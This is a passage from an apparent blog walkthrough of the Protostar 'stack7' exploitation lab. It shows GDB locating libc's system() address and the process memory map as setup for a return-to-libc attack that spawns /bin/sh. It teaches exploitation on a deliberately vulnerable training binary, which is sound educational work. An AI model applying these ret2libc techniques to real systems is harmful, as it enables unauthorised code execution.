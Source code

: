 <img src="/assets/img/post/2020-07-10-exploit-education-protostar-stack-series/stack7.png" style="width: 50%" >

Now we can use GDB to find the address of `system()` to get the address.

```shell
(gdb) p system
$3 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

Now we need to find where libc is loaded  so we can call `/bin/sh`

```shell
(gdb) info proc map 
process 11431
cmdline = '/opt/protostar/bin/stack7'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
         0x804a000  0x806b000    0x21000          0           [heap]
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fde000 0xb7fe2000     0x4000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```
